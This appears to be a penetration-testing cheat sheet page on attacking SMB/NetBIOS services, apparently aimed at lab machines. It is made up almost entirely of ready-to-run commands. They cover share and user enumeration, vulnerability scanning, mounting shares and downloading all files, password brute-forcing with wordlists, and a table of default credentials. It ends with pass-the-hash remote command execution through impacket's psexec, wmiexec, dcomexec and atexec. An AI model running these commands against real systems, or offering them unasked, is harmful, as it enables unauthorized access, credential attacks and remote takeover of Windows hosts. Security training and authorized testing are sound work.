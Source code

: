 ```yaml
---
description: >-
  Grind through the list and pray that this often misconfigured service is still
  doing its vulnerable thang.
---
```


# Port 139, 445 : SMB/NetBIOS

**Versions**  
There are fairly significant differences between the versions of SMB, especially in the security realm.  As expected, v1 has extra routes to exploit, though this is often one of my favorite services to find, due to the many footholds available, the wealth of information and the path to exploit them is pretty easy.

SMB1 – Windows 2000, XP and Windows 2003.   
SMB2 – Windows Vista SP1 and Windows 2008   
SMB2.1 – Windows 7 and Windows 2008   
R2 SMB3 – Windows 8 and Windows 2012.  
  
There's a few methods you can use to get the SMB version:

```text
nmap --script="smb-os-discovery.nse" -v -p 139,445 10.10.10.14
Run wireshark or tcpdump, run smbmap -H <victim's IP>, follow the TCP stream of the SMB negotiation
 
```

**Tools to map the share, get users and other information**

```text
nbtscan -r 10.10.10.14
smbclient -N -L (TARGET IP)  [optional: -m SMB2, --no-pass -c 'recurse;ls'  to list recursively with smbclient]
nmblookup -A 10.10.10.14 [optional: -R (recursion) -W <workgroup name> -n <netbiosname>]
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER) -m SMB2  [if you have a username]
smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)  [if you have an NTLM hash through impacket]
crackmapexec smb <IP> -u '' -p '' --shares  [no username] 
crackmapexec smb <IP> -u 'username' -p 'password' --shares [as guest] 
```

**Nmap**

```text
ls -la /usr/share/nmap/scripts/smb* 

nmap -v --script smb-os-discovery.nse -p 139,445 10.10.10.14 
nmap -v --script="smb-vuln*"  -p 139,445 10.10.10.14
nmap -v --script="smb*" -p 139,445 10.10.10.14
nmap -v --script="nbtstat.nse"  -p 139,445 10.10.10.14
nmap -sV -Pn -p 139,445    --script-args smbuser="<user>",smbpass="<password>" --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 
```

**RID Cycling**

```text
ridenum.py 10.10.10.88 500 50000 dict.txt 
msf > 
```

**Mounting SMB Shares**

```text
mount -t cifs -o username=user,password=password //<victim IP>/share /mnt/share 
smbclient -L //<IP>
smbclient //<IP>/IPC$ -N 
If share has a space in its name...
smbclient //<victim_ip>/<share\ name>  or smbclient //<victim_ip>/<"share name">

once mounted with smbclient, you can use "recurse ON", "prompt OFF" and "mget *" to download everything
```

**Metasploit Information Gathering Modules**

```text
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumusers_domain
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_ms17_010
```

**Metasploit script that checks for various vulnerabilities and gathers information**

```text
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc 
```

**\(Oftentimes, port 111, RPC, will be open along with this service\)**

```text
rpcclient -U "" -N 10.10.10.14
nmap --script="rpc*" 10.10.10.14

```

**After getting a list of users through enum4linux or other means, you can try to bruteforce the password:**

```text
medusa -h <victim_ip> -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt <victim_ip> -vvvv 

```

**Common Credentials:**

|  |  |
| ---: | :--- |
| \(blank\) | \(blank\)  |
| guest  | \(blank\)  |
| Administrator, admin  | \(blank\), password, administrator, admin  |
| arcserve  | arcserve, backup  |
| tivoli, tmersrvd  | tivoli, tmersrvd, admin  |
| backupexec, backup  | backupexec, backup, arcada  |
| test, lab, demo  | password, test, lab, demo  |

**Search for exploits**

```text
msf> search type:exploit platform:windows target:2008 smb 
searchsploit microsoft smb 
findsploit smb linux
```

**The following information is from Hacktricks and the very excellent enumeration guide located there:**

**PSexec and smbexec**  
Both options will create a new service \(using \pipe\svcctl via SMB\) in the victim machine and use it to execute something \(psexec will upload an executable file to ADMIN$ share and smbexec will point to cmd.exe/powershell.exe and put in the arguments the payload --file-less technique--\). More info about [psexec ](https://book.hacktricks.xyz/windows/ntlm/psexec-and-winexec)and [smbexec](https://book.hacktricks.xyz/windows/ntlm/smbexec). In kali it is located on /usr/share/doc/python3-impacket/examples/ 

\#If no password is provided, it will be prompted 

```text
./psexec.py [[domain/]username[:password]@]<targetName or address> 
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash 
psexec \\192.168.122.66 -u Administrator -p 123456Ww 
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

_Using parameter-k you can authenticate against kerberos instead of NTLM_ 

​[**wmiexec**](https://book.hacktricks.xyz/windows/ntlm/wmicexec)**/dcomexec** 

Stealthily execute a command shell without touching the disk or running a new service using DCOM via port 135. In kali it is located on /usr/share/doc/python3-impacket/examples/ 

```text
#If no password is provided, it will be prompted 
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password 
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted 
```

Using parameter-k you can authenticate against kerberos instead of NTLM 

```text
#If no password is provided, it will be prompted 
./dcomexec.py [[domain/]username[:password]@]<targetName or address> 
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted 
```

​[**AtExec**](https://book.hacktricks.xyz/windows/ntlm/atexec)**​** 

Execute commands via the Task Scheduler \(using \pipe\atsvc via SMB\). In kali it is located on /usr/share/doc/python3-impacket/examples/ 

```text
./atexec.py [[domain/]username[:password]@]<targetName or address> "command" 
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
```


